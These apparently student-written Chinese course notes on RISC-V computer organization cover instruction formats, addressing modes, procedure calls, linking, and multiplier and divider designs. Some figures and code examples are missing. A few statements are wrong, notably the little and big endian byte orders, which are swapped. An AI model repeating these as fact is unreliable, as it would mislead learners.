上述方法通常称为替换选择（replacement selection）。显然，当原数组的顺序已经比较接近最终的顺序时，替换选择能够得到更长的顺串。当然，在平均情况下，替换选择生成的顺串长度为 \(2M\)，其中 \(M\) 是内存的大小。这意味着我们使用替换选择算法能使得顺串的数量降低，因此之后合并的趟数也会减少，从而减少了 I/O 操作的次数。

当然，在生成了不同长度的顺串之后，我们还需要考虑如何合并这些顺串是最优的。从 PPT 中的例子可以知道，最优解就是使用哈夫曼树，因为我们的目标是想让长的顺串尽可能少地参与合并，那么显然贪心地不断选择最小的两个顺串合并是最优的。
Ended: 高级数据结构与算法分析
计算机组成与设计 ↵
计算机组成与设计¶
约 74 个字 预计阅读时间不到 1 分钟
教材: Computer Organization and Design The Hardware Software Interface [RISC-V Edition]
任课教师：刘海风
TA：郭家豪
成绩组成
- 实验 30%
- 理论 70%
- Homework + Quiz + Midterm 30%
- 期末 40%
- 一份A4小抄
Table of Contents¶
Computer Abstractions and Technology¶
约 955 个字 1 张图片 预计阅读时间 4 分钟
graph LR;
A["Computer
System"]
B["Software"]
C["Hardware"]
D["CPU"]
E["Memory"]
F["I/O
interface"]
G["Control unit"]
H["Datapath"]
A--->B
A--->C
C--->D
C--->E
C--->F
D--->G
D--->H
Eight Great Ideas in Computer Architecture¶
有一些在实际的题目中难以区分，需要注意题目中的某些暗示。
- Design for Moore’s Law (设计紧跟摩尔定律)
- Moore's Law: Integrated circuit resources double every 18-24 months.
- Use Abstraction to Simplify Design (采用抽象简化设计)
- 采用层次化、模块化的设计
- Make the Common Case Fast (加速常见事件)
- Performance via Parallelism (通过并行提高性能)
- Performance via Pipelining (通过流水线提高性能)
- 所有流程同时进行，每个流程工作的对象是相邻流程的产品
- Performance via Prediction (通过预测提高性能)
- Hierarchy of Memories (存储器层次)
- Disk / Tape \(\xrightarrow{Files}\) Main Memory(DRAM) \(\xrightarrow{Pages}\) L2-Cache(SRAM) \(\xrightarrow{Blocks}\) L1-Cache(On-Chip) \(\xrightarrow[Operands]{Instr.}\) Registers
- Dependability via Redundancy (通过冗余提高可靠性)
Components of a Computer¶
The five classic components of a computer:
- input;
- output;
- memory (DRAM);
- 程序、数据存储的地方，也是程序“运行的位置”；
- cache memory (SRAM): buffer for the DRAM memory;
- datapath;
- 负责实际的数据处理；
- control;
- 负责指挥控制如何进行数据处理，给出控制信号；

Performance¶
衡量计算机的性能和表现的重要标准是“运行速度”
- Response Time / Execution Time 从程序开始到结束的时间
- Throughput(吞吐量) / Bandwidth 单位时间内完成的任务数量
当我们衡量一个 CPU 的性能，或者具体分析一个 CPU 的性能构成时，就需要更加具体的指标:
- CPU (execution) time（CPU 执行时间）
- CPU clock cycle（时钟周期数）
- clock rate(frequency)（时钟频率） / clock cycle time（时钟周期）
- IC (Instruction Count): 指令总数
- CPI (cycles per instruction): 平均每条指令所需要的时钟周期数 = 总时钟周期数 / IC，一般与编译器有关
- 若不同的指令有不同的 CPI，则我们可以用 Average CPI
综上，可以得到 $$ CPU \ Time = \frac{Instructions}{Program} \times \frac{Clock \ Cycles}{Instruction} \times \frac{Seconds}{Clock \ Cycle} $$
一些常见名词¶
-
MIPS: Millions of Instructions Per Second
- 在其他参数都相同时才有比较意义
- 在不同的 ISA 之间不能仅凭 MIPS 比较；也不可用于比较指令的复杂程度
-
ISA: 指令集合架构(Instruction Set Architecture)
定义了计算机硬件与软件之间的接口。它具体包括：
- 支持的指令类型（数据处理、控制、输入/输出等）
- 数据类型（整数、浮点数、字符等）
- 寄存器设计（寄存器数量和类型）
- 地址模式（如何计算指令操作数的地址）
-
RISC（Reduced Instruction Set Computing）是一种指令集设计理念
- 指令数量较少，且所有指令都在单个时钟周期内执行。
- 每条指令长度相同，通常为固定大小。
- 使用大量的寄存器以减少内存访问。
- 简化的寻址模式，提高了执行效率。
- 硬件设计更简单，易于流水线操作，提高了性能。
-
MISC（Minimal Instruction Set Computing）是一种极简指令集设计
- 指令集非常小，通常只有几条基本指令。
- 每条指令可能需要多个周期才能执行。
- 多数指令依赖于程序的所有操作通过少量基本指令组合完成。
- 硬件实现简单，小型设备或特定应用中常见。
-
CISC（Complex Instruction Set Computing）是另一种指令集设计理念
- 包含大量指令，且每条指令可以执行复杂的操作。
- 指令长度不固定，许多指令可以通过一条指令进行多步操作。
- 支持更多的寻址模式和数据类型。
- 可以减少程序的大小，因为许多操作可以通过单条指令完成。
Instructions: Language of the Computer¶
约 5395 个字 7 行代码 36 张图片 预计阅读时间 22 分钟
Introduction¶
-
Language of the machine
- Instructions (Statement)
- Instruction Set (Syntax)
-
Design goal
-
Maximize performance
在同样资源（时间、空间）的情况下尽可能提高性能
-
Minimize cost
在保证同样性能的情况下尽可能降低成本
-
Reduce design time
指令集更简单，易于理解和设计
-
-
我们课程中使用的指令集为 RISC-V
Instruction Characteristics

指令集的基本结构包括：Operator（操作符）、Operands（操作数）
- 不同指令集中指令的编码通常不同，例如可用 000 表示加法，这也被称为指令的 Encoding（编码）
- 操作数的位宽可能不同，对应的来源也可能不同，可能来自寄存器、内存、立即数等
冯诺依曼架构：指令被认为是一种特殊的数据，和其他数据储存在同一个内存中，可以进行读写操作
哈佛架构：指令和数据分开存储，分别有自己的内存空间
Tip
在实验课中我们实现的实际上是哈佛架构，但在考试中的具体题目也可能是冯诺依曼架构的。
Operations¶
-
每一个计算机都需要实现算数运算操作
- Only one operation per instruction
-
Exactly 3 variables
例如
add a b c，表示将b和c相加，结果存入a，\(a \gets b + c\)
-
Design Principle 1 —— Simplicity favors regularity
简单源自规整，如每条指令都包含三个操作数
Operands¶
Register Operands¶
- 算术指令（Arithmetic Instructions）的操作数只能来自寄存器或立即数
-
RISC-V 中有 32 个 64-bit 的寄存器，分别用
x0到x31表示- 32-bit 的数据被称为一个 word，64-bit 的数据被称为一个 doubleword
| Name | Register Name | Usage | Preserved or call? |
|---|---|---|---|
| x0 | 0 | The constant value 0 | n.a. |
| x1(ra) | 1 | Return address(link register) | yes |
| x2(sp) | 2 | Stack pointer | yes |
| x3(gp) | 3 | Global pointer | yes |
| x4(tp) | 4 | Thread pointer | yes |
| x5-x7 | 5-7 | Temporaries | no |
| x8-x9 | 8-9 | Saved | yes |
| x10-x17 | 10-17 | Arguments/results | no |
| x18-x27 | 18-27 | Saved | yes |
| x28-x31 | 28-31 | Temporaries | no |
为什么 x0 寄存器的值需要保持为 0 ？
Make the common fast.
在实际的运算中常会有 0 参与，把它单独存放在一个寄存器中，便于计算。
Memory Operands¶
使用内存的好处在于可以存储比寄存器更多、更复杂的数据，例如数组或结构体等
- 访问内存的速度通常比访问寄存器慢
- 通过内存地址（Memory Address）判断我们需要的数据储存在内存的哪个位置
- RISC-V 中的内存地址是 byte addressed 的，也就是说每个地址对应一个 8-bit 的字节
RISC-V 中的内存访问指令有两种：
- Load：从内存中读取数据，储存到寄存器中
- Store：将寄存器中的数据写入内存
RISC-V 是 Little Endian（小端序） 的，也就是说低位字节存储在低地址，高位字节存储在高地址，Big Endian（大端序）则相反
Little vs Big Endian
- Little Endian：数据的低位字节存储在低地址
- Big Endian：数据的高位字节存储在低地址
例如，对于 32-bit 的数据 0x01234567，在内存中的存储方式如下：
- Little Endian：
01 23 45 67 - Big Endian：
67 45 23 01

与一些其他的 ISA 不同，RISC-V 不要求 word 在内存中对齐，也就是说一个 word 的数据可以从任意地址开始
- words align：一个 word 是 4 个字节，就要求一个 word 的起始地址一定要是 4 的倍数
Memory Alignment

上图中第一种情况是对齐的，第二种情况是不对齐的
- 对齐的好处在于可以提高内存访问的效率，比如能够保证不需要读取两次才能得到一个 word 的数据
- 不对齐的好处在于节省空间
Memory Operand Example
-
C code
这里我们默认数组的元素都是 doubleword 的，并且 assume h in
x21, base address of A inx22 -
RISC-V code
因为地址以 byte 为单位，且 1 doubleword = 8 byte，那么我们在根据访问内存中相应的数据时需要分别偏移 \(8 \times 8 = 64\) bytes 和 \(8 \times 12 = 96\) bytes。
Registers vs. Memory¶
-
Registers are faster to access than memory
寄存器中的数据可以直接取出来就用，但内存中的数据需要先根据内存地址找到数据所在位置，然后传输回运算单元
-
Operating on memory data requires loads and stores
使用内存中的数据需要执行额外的指令才能取出/写回
-
Compiler must use registers for variables as much as possible
编译器尽量使用寄存器存变量。只有在寄存器不够用时，或者使用寄存器无法保存的数据（数组、结构体等）时，才会选择用内存。
Constant or Immediate Operands¶
除了使用寄存器或内存中的数据之外，我们还可能使用到常量数字或者立即数（Immediate），如 $ h = h + 5 $
addi x22, x22, 5
- Immediate：Other method for offering operands
Summary

- 为什么内存是 61 个 doubleword？
因为 RISC-V architecture 的地址是 64 位的，因此总共可以寻址 \(2^{64}\) 个地址，每个地址对应一个 byte，因此总共有 \(2^{64}\) 个 byte，也就是 \(2^{64} / 8 = 2^{61}\) 个 doubleword。因此我们load和store指令可以访问的范围就是这 \(2^{61}\) 个 doubleword。
Signed and Unsigned Number¶
这部分就是老生常谈的二进制反码和补码的知识，就不再重复了
Representing Instructions in the Computer¶
计算机中的所有信息都使用二进制来表示，指令也不例外，指令会被编码成二进制的形式，称为机器码（Machine Code）。
RISC-V instructions
所有的 RISC-V 指令都是都会被编码成规整的 32-bit，一部分是 opcode，一部分是 operands 等等。

R-format¶

- opcode: basic operation and format of an instruction.
- rd: the register destination operand.
- funct3: an additional opcode field.
- rs1: the first register source operand.
- rs2: the second register source operand.
- funct7: an additional opcode field.
I-format¶

包括立即数算术运算和load指令
- rs1: source or base address register number
- immediate: constant operand, or offset added to base
address
- 立即数是二进制补码表示的有符号数
- 相当于把 rs2, funct7 合并了，得到一个 12-bit 的立即数
S-format¶

- rs1: base address register number
-
rs2: source operand register number
rs2 寄存器的数据就是将要写入内存的数据
-
immediate: offset added to base address
- 这里需要注意，S-format 指令的立即数在指令中的位置和 I-format 是不同的
- 立即数的位置被分割成了两部分，这样能保证 rs1 和 rs2 所在的位置保持不变
Example


Stored Program in Computer

- 事实上指令和程序和数据一样，都会被表示为二进制的形式，储存在内存中
- 有的程序可以对别的程序进行操作
- 例如编译器（Compiler）、连接器（Linker）等
-
Binary compatibility allows compiled programs to work on different computers
二进制的兼容性使得编译好的程序可以在不同的计算机上运行
Logical Operations¶
| Operation | C | Java | RISC-V |
|---|---|---|---|
| Shift left | << | << | slli |
| Shift right | >> | >> | srli |
| Bit-by-by AND | & | & | and, andi |
| Bit-by-by OR | | | | | or, ori |
| Bit-by-by XOR | ^ | ^ | xor, xori |
| Bit-by-by NOT | ~ | ~ | - |
RISC-V 中的按位 NOT 指令需要通过异或来实现，如xori x2, x2, -1
Shift¶
- 将二进制数据向左或向右移动，
- 左移时在右侧补 0，右移时在左侧补 0 或符号位，需要根据是逻辑右移还是算术右移来决定
- 左移 i 位相当于乘 \(2^i\), 右移 i 位相当于除 \(2^i\)
-
通常 shift 指令使用的是 I 型指令，
slli、srli、srai
-
为什么还会有一个
funct6？因为 RISC-V 的数据至多是 doubleword，也就是 \(64 = 2^6\) 位，因此左移或者右移的立即数只需要 6 位就可以表示
-
AND、OR、XOR¶
可能是寄存器和寄存器的数据之间按位运算，也可能是寄存器的数据与立即数按位运算
Instructions for Making Decisions¶
Branch instructions¶
-
beq rs1, rs2, label如果
rs1和rs2相等，那么跳转到label处 -
bne rs1, rs2, label如果
rs1和rs2不相等，那么跳转到label处
除了上面两种之外，还有一些其他的条件跳转指令，如blt、bge、bltu、bgeu等
Example


branch 类型指令的立即数是作为地址偏移量与当前指令的 PC 相加来计算需要跳转到的地址的
- 由于立即数只有 12 位，跳转的范围有限
index out of bounds 检测
If (x20 >= x11 || x20 < 0) goto IndexOutofBounds;
上面的这条指令可以只需要一条指令就可以实现：
bgeu x20, x11, IndexOutofBounds
需要注意的是，这里我们默认 x11 中存的值大于 0，否则上面这个判断条件无论如何都是 True，这样就没有意义了
如果 x20 > 0，那么两个数都是整数，用 bgeu 也不会有问题；如果 x20 < 0，那么由于 x20 用二进制补码来表示，这时候它又会被视为一个很大的正数，因此bgeu x20, x11也是成立的。
slt instruction¶
slt：Set on Less Than
-
slt rd, rs1, rs2如果
rs1<rs2，那么rd= 1，否则rd= 0
此外，还有
- slti：Set on Less Than Immediate
- sltu：Set on Less Than Unsigned
- sltiu：Set on Less Than Immediate Unsigned
Case/Switch¶
jalr rd rs1 imm 或 jalr rd imm(rs1)
jalr 指令是 I 型指令，具体操作是从寄存器中取出数据，然后把这个数据与一个立即数相加，跳转到这地址去，同时把下一条指令的地址，即 PC+4 写入 rd 寄存器中。
假如我们不需要下一条指令的地址，我们就把 rd 寄存器设置为 x0，因为 x0 寄存器的值始终是 0，不会被修改。
Compiling a switch using jump address table


在上面的这个例子中，编译器实际上会把 switch 语句中不同情况对应的的程序内容写到内存不同的位置，然后把这些地址用一个表来存储。当程序执行到 switch 语句时，会先找到这个地址表的位置，然后从表中读取所需要的地址，然后再把这个地址对应的内容从内存里读取出来。
Basic Blocks
A basic block is a sequence of instructions with
- No embedded branches (except at end)
- No branch targets (except at beginning)
我们把一些不含有分支跳转语句同时也不会作为跳转目标的指令的集合称为基本块，基本块是编译器优化的基本单位。
Supporting Procedures in Computer Hardware¶
Procedure/Function —— be used to structure programs
- 一个用于完成特定任务的子程序
- 易于理解，可以被复用
调用一个函数主要可以分为 6 步
-
Place Parameters in a place where the procedure can access them（in registers
x10~x17）向子程序传递参数，通常使用寄存器
-
Transfer control to the procedure
将处理器的控制权转交给子程序
-
Acquire the storage resources needed for the procedure
为子程序分配所需的存储资源
-
Perform the desired task
执行子程序的任务
-
Place the result value in a place where the calling program can access it
将结果传递给函数调用者（通常也是一个程序）
-
Return control to the point of origin (address in x1)
将控制权返回给调用这个函数的程序
Procedure Call Instructions¶
-
Procedure call: jump and link
指令格式为
jal x1, ProcedureLabel，会把下一条指令的地址（PC+4）写入 x1 寄存器中，然后跳转到 ProcedureLabel 处开始执行相应进程
-
Procedure return: jump and link register
指令格式为
jalr x0, 0(x1)跳转到
x1寄存器存储的地址去，由于x0寄存器的值始终是 0，因此实际上并不会把下一条指令的地址写入寄存器中
Using More Registers¶
-
Registers for procedure calling
x10~x17：8 个用于存储参数的寄存器x1：用于存储返回地址的寄存器
-
Stack：Ideal data structure for spilling registers
- Stack pointer (
sp):x2 - Push:
sp = sp - 8 - Pop:
sp = sp + 8
- Stack pointer (
Leaf/Non-leaf Procedure
-
Leaf procedure: does not call other procedures
不会调用其他的函数的函数，因此不需要保存寄存器的值，也不需要保存此程序的返回地址
-
Non-leaf procedure: calls other procedures
会调用其他的函数的函数，因此需要保存寄存器的值和返回地址
对于嵌套的函数调用，我们需要保存上一个函数的返回地址到栈中，然后再调用下一个函数，这样就可以保证在下一个函数执行完后，可以返回到上一个函数中。
Nested Procedure


Disadvantages of recursion：
- 使用大量资源，有可能造成栈溢出
- 需要栈反复 push 和 pop，使得内存的利用十分低效
Preserved or not

- 父函数需要保证子函数可以随便使用 temp reg（
x5-x7，x28-x31），子函数返回到父函数时不需要保证这些寄存器的值不变 - 子函数返回到父函数时，saved reg（
x8-x9，x18-x27）的值需要恢复到父函数调用子函数的值之前的状态
Local Data on the Stack

Communicating with People¶
-
Byte-encoded character sets
- ASCII: 7-bit encoding
- Unicode: 16-bit encoding
-
Unicode: 16-bit/32-bit character set
- UTF-8, UTF-16: variable-length encodings
由于数据的编码有不同的长度，因此往内存读写数据也要有不同长度的 load 和 store
-
Load byte/halfword/word: Sign extend to 64 bits in rd
寄存器是 64 位的，取出来的数据可能不足 64 位，要把取出来的数据按符号位扩充到 64 位，高位补符号位
- lb rd, offset(rs1)
- lh rd, offset(rs1)
- lw rd, offset(rs1)
-
Load byte/halfword/word unsigned: Zero extend to 64 bits in rd
取出来的数据可能不足 64 位，无符号拓展到 64 位，高位补 0
- lbu rd, offset(rs1)
- lhu rd, offset(rs1)
- lwu rd, offset(rs1)
-
Store byte/halfword/word: Store rightmost 8/16/32 bits
只把读出来的数据的低 8/16/32 位存入内存，高位写入时会被忽略（内存会按对应字节写入）
- sb rs2, offset(rs1)
- sh rs2, offset(rs1)
- sw rs2, offset(rs1)
offset 不一定是 2/4/8/16/32 的倍数，因为 RISC-V 是可以不对齐的（但实际上 sh 的 offset 通常是 2 的倍数，sw 的 offset 通常是 4 的倍数）
Strings¶
通常有三种表示字符串的方式：
- Place the length of the string in the first position
- An accompanying variable has the length
- A character in the last position to mark the end of a string
Java 采用第一种表示方法，C 采用第三种表示方法
tring Copy Example


事实上上面的例子还可以改进
- i 不应该分配给
x19，而应该分配给一个临时寄存器，这样就不需要用堆栈保存x19的值了 -
对于一个 leaf procedure，编译器应当在用完所有的临时寄存器之后，再去考虑使用其他的寄存器
-
为什么要强调是 leaf procedure？
因为对于 non-leaf procedure，临时寄存器中的值可能会被后续调用的函数所改变
-
RISC-V Addressing for Wide Immediate and Addresses¶
Wide Bit Immediate addressing¶
I 型指令至多只能提供范围在 12 位以内的立即数，但是有时候我们需要更大范围的立即数，这时候就需要使用 U 型指令
lui rd imm的作用是把 20 位的寄存器写入 rd 寄存器的 [31:12] 位，低 12 位填充 0

Example

在这个例子中我们希望寄存器最终的值是 32 位的常数 0x003D0900。先使用lui指令在寄存器的高 [31:12] 位写入0x003D0即976，然后使用addi指令在寄存器的低 [11:0] 位写入0x900即2304。
Warning
当我们使用lui和addi指令来载入一个大立即数时，如果addi的立即数最高位是 1，那么这个立即数会被当作负数来处理，会额外加上0xFFFFF000，这样就会导致结果不是我们想要的。
观察分析之后我们可以知道，额外加上0xFFFFF000之后相当于lui的立即数减小了 1，因此这时候我们应该让lui的立即数加 1，这样就可以把0xFFFFF000的影响抵消了。
例如我们要得到0xDEADBEEF，我们应该使用的指令是
Branch Addressing¶
SB-type(B-type) 指令的格式

实际上 SB 型指令并不会把立即数的每一个 bit 都储存在机器码中，储存的是立即数舍去最后一位的结果，即imm[12:1]。因为指令的地址一定是偶数倍的，最低位一定是 0，因此我们可以把这个 bit 省略掉。
当需要计算跳转地址时，我们就把机器码中的立即数部分取出并左移一位，然后再根据这个值计算跳转地址，这样就能够实现一个 13-bit 的 offset。 $$ Target \ Address = PC + Branch \ offset = PC + imm \times 2 $$
Jump Addressing¶
UJ-type(J-type) 实际上只有jal一个指令

jal指令有 20-bit 用来存储立即数，和 SB 型指令一样，它存储的是立即数舍去最后一位的结果，即imm[20:1]，这样就可以实现保存一个 21-bit 的 offset。
如何实现长距离的跳转？
-
首先用
lui指令目标地址的[31:12]位写入临时寄存器temp_reg \(\gets\) address[31:12]
-
接着再用
jalr指令把 address[11:0] 的值加上这个寄存器的值，并跳转到目标地址jalr x0, address[11:0](temp_reg)
Example


SB 类型指令直接用 PC+offset 来计算跳转地址。这里的 offset 需要把取出来的立即数在最低位填充 0 才能得到。
- All RISC-V instructions are 4 bytes long
-
PC-relative addressing refers to the number of halfwords
PC 相对地址是指相对于当前指令的地址的偏移量，这个偏移量是以 halfword 为单位的
既然每一条指令的地址都是 4 的倍数，为什么不直接省略后两位，而只省略一位？
实际上 RISC-V 是允许进行指令长度为 2 字节的 extension 的，只不过我们并没有学到这部分内容。
课本原文：
However, the RISC-V architects wanted to support the possibility of instructions that are only 2 bytes long, so the branch instructions represent the number of halfwords between the branch and the branch target.
Branching far away

有时候我们要跳转到一个 Branch 指令够不着的地址去，但是这个地址也没有远到需要使用lui和jalr指令来实现。这时候我们可以使用jal指令来实现跳转（范围为 \(-2^{20} \sim 2^{20}-1\)）。
RISC-V Addressing Summary¶

RISC-V 有 4 中寻址方式
-
立即数寻址
addi x5, x6, 4 -
寄存器寻址
add x5, x6, x7 -
基地址寻址
ld x5,100(x6) -
PC 相对寻址
beq x5,x6,L1

Synchronization in RISC-V¶
-
Two processors sharing an area of memory
- P1 writes, then P2 reads
-
Data race if P1 and P2 don’t synchronize
- Result depends of order of accesses
当两条指令都需要使用同一块内存时，如果没有同步，那么就会出现数据竞争，结果取决于两条指令的执行顺序
-
Hardware support required
- Atomic read/write memory operation
- No other access to the location allowed between the read and write
Load Reserved: lr.d rd, (rs1)
- 把
Mem[rs1]的值存到rd中，然后在Mem[rs1]上设置一个保留标记（reservation set）
Store Conditional: sc.d rd, (rs1), rs2
-
在尝试把
rs2的值存到Mem[rs1]之前，会先判断Mem[rs1]上是否有保留标记- 如果观察到了保留标记，就说明从上一条
lr.d指令之后Mem[rs1]的值没有被改变，那么就把rs2的值存到Mem[rs1]中，并且把rd设置为 0 - 如果没有观察到保留标记，说明
Mem[rs1]的值已经被改变了，那么就不会把rs2的值存到Mem[rs1]中，并且把rd设置为一个非零值 - 无论是否存储成功，
Mem[rs1]上的保留标记都会被清除
- 如果观察到了保留标记，就说明从上一条
Example

在第二个例子中，如果sc.d没有在Mem[rs1]上观察到保留标记，那么就不会把rs2的值存到Mem[rs1]中，并且会从头开始重新执行一次lr.d指令，直到确保lr.d指令和sc.d指令之间没有其他的指令对Mem[rs1]进行了修改。
Translating and Starting a Program¶

以 C 语言程序为例
- 首先 C 源程序被编译器编译成汇编代码
- 然后再由汇编器将汇编代码转换成机器码
- 接着再由链接器将机器码和库文件链接成可执行文件
- 最后把可执行文件加载到内存中，由操作系统执行。
Object file¶

目标文件可以分为以下几个部分：
-
object file header
包含了一些关于目标文件的基本信息，如文件大小、目标文件其他部分的位置等
-
text section
包括所需的指令及其地址
-
static data segment and dynamic data
static data 会在整个程序的生命周期中一直存在，而 dynamic data 会在程序运行时动态分配
-
relocation information
重定位信息，标注各个部分在内存中的绝对位置，以便链接器将各个部分正确地连接到一起
-
Symbol table:
global definitions and external refs
-
Debug information
for associating with source code
Link¶
Object modules(including library routine) \(\to\) executable program
- Place code and data modules symbolically in memory
- Determine the addresses of data and instruction labels
- Patch both the internal and external references (Address of invoke)
Loading a Program¶
Load from image file on disk into memory
- Read header to determine segment sizes
- Create virtual address space
-
Copy text and initialized data into memory
Or set page table entries so they can be faulted in
-
Set up arguments on stack
- Initialize registers (including sp, fp, gp)
-
Jump to startup routine
- Copies arguments to x10, … and calls main procedure
- When main returns, do exit syscall
Dynamic Linking¶
-
静态链接
- 在生成可执行文件时把所有需要的的库文件都链接到可执行文件中
- 导致可执行文件的体积变得很大，但可以保证程序的独立性
-
动态链接
- 在程序运行时才会把库文件链接到程序中
- 可以减小可执行文件的体积，并且可以使用到最新的库文件
- 但库文件的位置和版本可能会发生变化，可能会导致程序无法运行
Arrays vs. Pointers¶
指针指向的目标地址可以被改变，但数组的基地址是固定的，因此使用指针和数组完成相同的工作时，翻译得到的汇编代码也有所不同
Clearing an Array

在这个例子中，我们使用指针和数组来清空一个数组，可以看到使用指针的方式会比使用数组的方式多出一些指针的操作，因此使用指针的方式会更加高效。
Other RISC-V Instructions¶
- Base integer instructions (RV64I)
- Those previously described, plus
- auipc rd, immed // rd = (imm<<12) + pc
- follow by jalr (adds 12-bit immed) for long jump
- slt, sltu, slti, sltui: set less than (like MIPS)
- addw, subw, addiw: 32-bit add/sub
- sllw, srlw, srlw, slliw, srliw, sraiw: 32-bit shift
- 32-bit variant: RV32I
- registers are 32-bits wide, 32-bit operations
我们在计组实验课中实现的是 RV32I 的指令集，但是考试中可能会考到的是 RV64I 的指令集，因此需要注意 RV64I 和 RV32I 的区别。
Arithmetic for Computers¶
约 1058 个字 19 张图片 预计阅读时间 4 分钟
Introduction¶
在计算机中指令可分为三类
-
memory-reference instructions 需要 ALU 计算内存地址，如
lw,swlw: load word, 从内存中读取一个字sw: store word, 将一个字写入内存
-
arithmetic-logical instructions 需要 ALU 执行算数或逻辑运算，如
add,sub,and,or,sltslt: set less than, 如果第一个操作数小于第二个操作数，将结果置为1，否则置为0
-
control flow instructions 需要 ALU 进行条件判断，如
beq,bne,jalbeq: branch if equal, 若两操作数相等则跳转至指定地址bne: branch not equal, 若两操作数不相等则跳转至指定地址jal: jump and link, 跳转至指定地址并将下一条指令地址存入寄存器
有符号数的表示¶
- Sign and Magnitude
- 1's Complement
- 2's Complement
- Bias Notation(偏移表示法)
关于偏移表示法
偏移表示法（移码）可用于表示正数或复数，其基本思想是引入一个偏移量，使得所有数都是非负数。例如，偏移量为 100，那么 -100 可表示为 0，0 可表示为 100，100 可表示为 200。这样一来硬件就可以把所有的数字当作无符号数来处理，而不需要区分正负数，从而简化了硬件的设计与实现，常用于浮点数表示等。
例如我们使用 8 bit 来表示数字，偏移量就可以设置为 \(2^7 - 1 = 127\)，这时候
- 数字 0 表示为 \(0 + 127 = 127\)，即
01111111 - 数字 -1 表示为 \(-1 + 127 = 126\)，即
01111110 - 数字 1 表示为 \(1 + 127 = 128\)，即
10000000
要从偏移表示法转换为原始的有符号数，只需要减去偏移量即可。
对于二进制补码表示的有符号数，要将其变为偏移法表示，只需要把它的符号位反转，再整体减去 1 即可，如
- \(1\):
00000001->10000000 - \(-1\):
11111111->01111110 - \(0\):
00000000->01111111
Arithmetic¶
加法和减法在这里不再赘述，主要讨论乘法和除法，但需要注意的是加减法的溢出检测。在设计加减法器时，通常会在数据位的基础上额外添加一位用于判断是否溢出或进位，这通常称为溢出位（Overflow Bit）或进位位（Carry Bit）
| Operation | Operand A | Operand B | Result overflow |
|---|---|---|---|
| \(A + B\) | \(\geqslant 0\) | \(\geqslant 0\) | \(< 0\) (01) |
| \(A + B\) | \(< 0\) | \(< 0\) | \(\geqslant 0\) (10) |
| \(A - B\) | \(\geqslant 0\) | \(< 0\) | \(< 0\) (01) |
| \(A - B\) | \(< 0\) | \(\geqslant 0\) | \(\geqslant 0\) (10) |
表格中，溢出位在结果的符号位的左侧，可以看出，当发生溢出时，溢出位与符号位的异或结果为 1，即 \(C_{n+1} \oplus C_n = 1\)
Multiplication¶
Unsigned multiplication¶
- Version 1
最简单朴素的想法，根据当前处理的 Multiplier 的位的0/1来选择是否要将 Multiplicand 的对应移位结果加到 Product 上去。
每执行一次判断，都要左移被乘数，同时右移乘数来获取被乘数当前的最低位，以此判断下一步是否要做加法。

但是这种方式实现的乘法相当消耗资源，需要 128+128+64 bit 的寄存器，和一个 128 bit ALU
- Version 2
可以发现，在 V1 中我们做了大量的 128 位加法，但是实际上被加过去的 Multiplicand 有效内容只有 64 位。经过改进后的 V2 解决了这个问题。

这里我们把储存 Multiplicand 的寄存器换成了 64 位的，把移位操作转移到了 Product 寄存器上——每一次都将 ALU 的计算结果在 Product 寄存器的高64位上做 64 位的加法（当然如果此时 Multiplier 的最低位是 0，那么就不做加法），而每一轮操作都要把 Product 寄存器右移一位，经过 64 次操作之后就得到了最终的乘积。
- Version 3
我们还发现，我们 Multiplier 的右移是为了枚举最低位，但是为了实现这个枚举，我们每次都要做 64 位的右移；此外在最开始时，Product 寄存器的低位是没有意义的。
仔细思考后可以发现，Product 寄存器和 Multiplier 寄存器都要进行右移，而每一次右移后 Multiplier 寄存器的有效数据就减少一位，而 Product 寄存器的有效数据就增加一位。那么我们就可以在最开始时直接把 Multiplier 放在 Product 寄存器的低 64 位，这样每一次右移都可获得 Multiplier 的最低位，同时也给 Product 腾出来了一个位置用于新一次的加法，因此这样的设计是合理的。

这么做的好处在于大大节省空间了，少用了一个 64 bit 的寄存器，总共需要 128 bit 的寄存器和一个 64 bit ALU，相比于 Version 1，提升是相当可观的。
Signed multiplication¶
- 朴素的有符号乘法
有符号数由于符号位的存在不能直接相乘，我们可以直接根据乘数和被乘数的符号位来决定乘积的符号位（直接异或即可），然后再对它们绝对值进行无符号乘法，最后填上符号位即可。
- Booth's Algorithm
Booth's Algorithm 的主要思想在于减少乘数中1的数量，也即减少进行加法运算的次数，想办法用移位操作代替加法——因为很显然移位操作消耗的时间要少于加法。
在原先的乘法中，每当乘数中有一个1，都要进行一次加法，但是如果乘数中有一串较长的1时，就可以把它转化为一个大数字减一个小数，如：00111100 = 01000000 - 00000100，这样我们就把多次加法转化为了一次加法和一次减法，这样就减少了执行加减法的次数。

进行 Booth 算法时，我们每次对乘数进行两位两位的观察，但因为我们要进行 \(n\) 次操作，直接这么观察我们只能观察 \(n-1\) 次，因此我们一开始时要在乘数的右边补上一个零再开始做 Booth 的乘法。\(Bit_{-1} = 0\)
- 10 - subtract multiplicand from left half
- 11 - no arithmetic operation - just shift
- 01 - add multiplicand to left half
- 00 - no arithmetic operation - just shift
要注意右移时可能会改变 \(Bit_{-1}\)，并且右移时不能改变符号位，左侧填充的数字应当与符号位相同。
Example


Tip
-
需要提醒的是，这里在进行乘法运算时采用了上面 V3 的思路，即在最开始把乘数放在 Product 寄存器的低位中，每次把 Multiplier 右移后，\(Bit_{-1}\) 就变成了移出来的那一位数据
-
Booth's Algorithm 对于有符号数也同样是成立的，
Faster Multiplication¶
这里采用了并行加速的思想，32 位数乘 32 位数，就相当于 32 个 32 位数相加，我们可以采取用空间（硬件资源）换时间的方式来加速乘法，需要考虑的是花销与性能的 trade off。

Division¶
除法在某种程度上与乘法相似，也可以有不断改进的 Version，只不过是除数在被除数的高位上进行减法。
如果减法得到的结果大于 0，那么说明这一位可以除下去，商的对应位为 1，否则就要把减去的除数再重新加回来，商的对应位为 0。（实际上就是把除数和被除数的高位进行大小的比较）
- 如果能除下来，就直接在被除数上减去除数
- 如果不能除下来，那就不能减，直接移位看下一位能不能除下来。
在这里就偷懒只给出 V1 和 V3 了。
- Version 1
将除数放到高位。从高位开始减，减完将除数右移。商也随之不断左移。如果减完之后是负数，需要还回去。

7÷2 V1

- Version 3
优化的思路和乘法器十分类似，每次循环都是 Reminder 寄存器的最高位在做减法，减了之后就左移把最高位丢弃了，那么右侧空出来的位置就可以用来保存新计算得到的 Quotient。

7÷2 V3

这里我们需要注意一下，因为最开始时 Reminder 寄存器的高位都是没有意义的 0，这个时候直接做减法的话结果肯定是小于 0 的，没有什么意义，因此在最开始时就要把 Reminder 寄存器左移一位，然后再开始进行减法和移位操作。
